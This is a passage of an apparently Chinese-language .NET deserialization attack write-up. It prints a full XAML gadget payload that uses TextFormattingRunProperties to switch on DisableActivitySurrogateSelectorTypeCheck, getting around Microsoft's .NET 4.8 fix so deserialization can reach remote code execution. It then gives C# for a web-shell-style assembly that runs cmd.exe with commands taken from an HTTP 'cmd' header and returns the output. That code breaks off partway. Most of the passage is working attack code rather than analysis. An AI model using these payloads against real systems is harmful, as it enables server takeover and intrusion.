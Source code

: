 #### ActivitySurrogateDisableTypeCheck+TextFormattingRunProperties

在dotnet4.8中，微软修复了对ActivitySurrogateSelector类的滥用

思路：用TextFormattingRunProperties关闭DisableActivitySurrogateSelectorTypeCheck类型检查，然后再反序列化实现RCE

```plain
<ResourceDictionary
    xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
    xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
    xmlns:s="clr-namespace:System;assembly=mscorlib"
    xmlns:c="clr-namespace:System.Configuration;assembly=System.Configuration"
    xmlns:r="clr-namespace:System.Reflection;assembly=mscorlib">
    <ObjectDataProvider x:Key="type" ObjectType="{x:Type s:Type}" MethodName="GetType">
        <ObjectDataProvider.MethodParameters>
            <s:String>System.Workflow.ComponentModel.AppSettings, System.Workflow.ComponentModel, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35</s:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
    <ObjectDataProvider x:Key="field" ObjectInstance="{StaticResource type}" MethodName="GetField">
        <ObjectDataProvider.MethodParameters>
            <s:String>disableActivitySurrogateSelectorTypeCheck</s:String>
            <r:BindingFlags>40</r:BindingFlags>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
    <ObjectDataProvider x:Key="set" ObjectInstance="{StaticResource field}" MethodName="SetValue">
        <ObjectDataProvider.MethodParameters>
            <s:Object/>
            <s:Boolean>true</s:Boolean>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
    <ObjectDataProvider x:Key="setMethod" ObjectInstance="{x:Static c:ConfigurationManager.AppSettings}" MethodName ="Set">
        <ObjectDataProvider.MethodParameters>
            <s:String>microsoft:WorkflowComponentModel:DisableActivitySurrogateSelectorTypeCheck</s:String>
            <s:String>true</s:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
</ResourceDictionary>
```

#### 回显

写一个自定义的程序集，利用header中的cmd参数值执行命令，同时有回显

```plain
class E
{
    public E()
    {
        System.Web.HttpContext context = System.Web.HttpContext.Current;
        context.Server.ClearError();
        context.Response.Clear();
        try
        {
            System.Diagnostics.Process process = new System.Diagnostics.Process();
            process.StartInfo.FileName = "cmd.exe";
            string cmd = context.Request.Headers["cmd"];
            process.StartInfo.Arguments = "/c " + cmd;
            process.StartInfo.RedirectStandardOutput = true;
            process.StartInfo.RedirectStandardError = true;
            process.StartInfo.UseShellExecute = false;
            process.Start();
            string output = process.StandardOutput.ReadToEnd();
```